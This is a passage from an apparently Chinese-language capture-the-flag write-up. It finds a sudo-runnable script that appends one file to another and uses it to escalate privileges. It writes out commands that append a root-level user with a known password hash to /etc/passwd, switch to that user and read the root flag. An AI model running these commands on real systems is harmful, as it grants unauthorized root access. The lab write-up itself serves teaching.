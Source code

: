 ```
find / -name test.py
```

发现test.py路径：/opt/devstuff/test.py，查看test.py代码

```
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

作用是读取第一个参数文件的，添加到第二哥参数文件中，可以用来修改/etc/passwd

```
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![image-20211007234114035](/assets/img/image-20211007234114035.png)

